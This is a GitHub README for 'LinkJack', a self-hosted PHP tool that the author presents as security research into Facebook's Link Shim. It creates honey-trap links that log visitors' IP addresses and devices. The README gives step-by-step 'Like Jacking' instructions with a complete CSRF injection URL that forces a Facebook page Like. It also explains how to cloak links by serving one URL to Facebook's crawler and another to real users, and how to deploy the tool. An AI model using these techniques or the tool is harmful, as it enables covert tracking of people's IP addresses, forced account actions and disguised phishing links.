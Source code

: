 # LinkJack

### LinkJack is a customisable URL Honey Trap & Masquerade System that has advanced device recognition features for anybody that loads a constructed link.
[![demo button](https://i.imgur.com/3Ugm8J7.jpg)](https://linkstats.ml) 
![screen](https://i.imgur.com/CetGtaL.jpg)

## History
> Link Jack or LinkJack ( LJ ) is an ongoing research project into the dangers of redirection scripts in relation to security on Facebook. it initially started in late 2016 as i accidentally found the possibility attempting to make my own URL Shortening service, it was quickly apparent that Facebook users could be honey trapped for IP Address harvesting, further research uncovered a vast amount of vulnerability in the Facebook Link Shim system that allowed SSRF, CSRF, Post Spoofing, Click Hijacking among others... some have been given CVE's and other's have not.
The reasons as to why some have not been accepted as Vulnerability is almost hilarious "We can't fix it, therefore it's not eligible".    
    
Exploit Dissection Video - https://m.youtube.com/watch?v=9XD9ODDT2hg&t=1s      
Performing Exploit on GitHub ReadMe File - https://youtu.be/dLAcBkTS14Q      
Performing Exploit on Facebook - https://m.youtube.com/watch?v=XbDv4PsnBnk&t=11s    
Using Exploit with Spoof Facebook Log-in -  https://m.youtube.com/watch?v=sxDUVnRnYk8    
Facebook Responsibility Information -   https://youtu.be/nQ2iXNyFFEM    

    

## Updates on report     
> Facebook Like Jacking Successfully performed 7 November 2020 using a Cross-Site Request Forgery to the sister website mbasic.facebook   
* Load Facebook in mbasic.facebook.com    
* Go to the desired Page to Like Jack    
* Hold ( Long Press ) on Like button and Select Copy URL    
* Paste the Like URL into a new text document
* Open the Facebook News Feed and find a Link    
* Extract the Facebook Linkshim URL from the Link    
* Format your Like URL in urlEncoded format     
* Inject Like URL into Linkshim URL   
 
Eg,   
Like URL    
`https://mbasic.facebook.com/a/profile.php?fan&id=116472816929607&origin=page_profile&pageSuggestionsOnLiking=1&gfid=AQCxHP9_rBs9hWEIUBA&refid=17&ref=bookmarks`   
        
Link URL    
`https://lm.facebook.com/l.php?u=[url]&h=AT0Q...`      
      
Injection URL     
`https://lm.facebook.com/l.php?u=https%3A%2F%2Fmbasic.facebook.com%2Fa%2Fprofile.php%3Ffan%26id%3D116472816929607%26origin%3Dpage_profile%26pageSuggestionsOnLiking%3D1%26gfid%3DAQCxHP9_rBs9hWEIxwk%26refid%3D0&h=AT0QwiCjR8pUK_Lgr-w9hZWHMRUXNq-W9Wm5Vp5Ssq8x7C1rHJ4Jbfgm0ssXmqzU5NJH85zRkT886DKRQ_iWyRz0NQIZhobUMRUzlHyd582pZvKSAJMmrEOuD-6Y4vk0C73HAZZc2v0VcylgwtxAXni2DmJan1T99ObuVmQB5iIqnRfe5n5zCKWtJpD91hJV60wsN1Hn6LRxkZ5zx4uIatCmuFSIiosOV38E0spJRQdUZ2neUsLJc6vgv2p4mi2dfYIsJQKEANddyGjF3cP8oPHIbsjQz5LiU1NozYOoRgaUHe0k-0S8oq2D217f-Cy3CUkRI5AOPQxDR-EVFrs-YS6r2nGb8Ez_8rfsiFPr0F3DEvqRwMLGqfRcqxYqgHtJn36dzXUZyVFo5R-d7qc7fCN2sjdNx9n7SLLetrMA1P4Ru9Fua-XwTE4cAbT-PS6fEYkD45unAX3Ydu0uufq7mZq1t_BBfiUbncMr9TdvQ0PAIeWV6IapoaMH0x9BRThMyNUENthJQQnBpMUfvz_j4wu7VItZGBNL2-C1g9wg8nevzsAMIvCO_xm3XOIqwR-_pdw1SN5pnstDz-EESA`
     
  
Like Jacking Successful within H parameters Time Allowance, each H param is unique to the time of Click and therefore will allow about 1 hour with that same H id.
   
GFID  Facebook GFID is also time limited to the same cookie expirations.
   

## Facebook Post Spoofing   
* Set Target as ( facebookexternalhit )   
* Choose the URL Facebook will see - Target URL    
* Add Real URL - Default URL    


## Technology
* PHP 7
* BootStrap 4
* jQuery

## Installation
* The project is a self installing website that uses the config.php file included by all other php files to create a universal installation configuration script.
* Edit the **config.php** file to suite your installation environment.
* Get an API Key from [UserStack](https://userstack.com) and add it into the **config.php** for device analysis on the user agent - or use the provided test key.
* Place the files onto your host and open the **home.php** file using a web browsers - this will initialize the **config.php** file 
* After the **config.php** has created necessary files and folders for the environment, you're all good to start using.


### Heroku Deployment
#### Heroku runs under CGI environment and some things have been changed to work with Heroku, the Time will now be displayed in (Seconds Ago) and the IP address information is still not loading from the API.   
[![Deploy](https://www.herokucdn.com/deploy/button.svg)](https://heroku.com/deploy)        
Create a FREE account first if you do not yet have one:  
https://signup.heroku.com/    
### Heroku Demo Deployment     
#### Full featured heroku deployment, has issues loading additional ip address information
https://linkstat.herokuapp.com/

## Development Notes
### Security Improvement
I built and distributed the entire project by myself in about 3 days, so please keep that in mind - it needs a thorough run through for security with proper sanitization of input and descriptions.

## Usage
### Create A Link
* Open the **Add Link** Page
* Enter a device target or IP address to match against the link viewer's
* Press **Get Link** 
* Write Down Your Private Key - important !
* Test the Link, it will automatically copy to clipboard when you press **Get Link**

### Watch A Link
* Open the **Link Stats** page
* Enter Your Link that was Created
* Enter Your Private Key ( Link PIN )
* Press **Get Stats**

### Remove A Link
* Open the **Remove Link** page
* Enter Your Link that was Created
* Enter Your Private Key ( Link PIN )
* Press **Remove Link**


## Page Screenshots
### Get Link
![screen](https://i.imgur.com/dtBXBzR.jpg)

### Link Stats Key Check
![screen](https://i.imgur.com/Sh5m5he.jpg)

### Link Stats 
![screen](https://i.imgur.com/cusF2xO.jpg)


### Remove Link 
![screen](https://i.imgur.com/UGtYzru.jpg)


### Origin Report Graphic 
![screen](https://github.com/WokeWorld/LinkJack/blob/master/IMG_20200310_084516.jpg)


### Response on Report Danger
![screen](https://github.com/WokeWorld/LinkJack/blob/master/Screenshot_2020-06-15-13-02-56.jpg)


### Response on Report Danger 2020    
> Apparently Facebook only accept SSRF and CSRF vulnerabilities if they can Log Out the person or Change The Password.
![screen](https://github.com/WokeWorld/LinkJack/blob/master/IMG_20201111_105120.jpg)


## Design & Theme 
MIT Licensed Design
> See [Mobirise](https://mobirise.com) for more information on the software used to build LinkJack's html frontend.
* I've added the project file so you can keep working on the same theme.


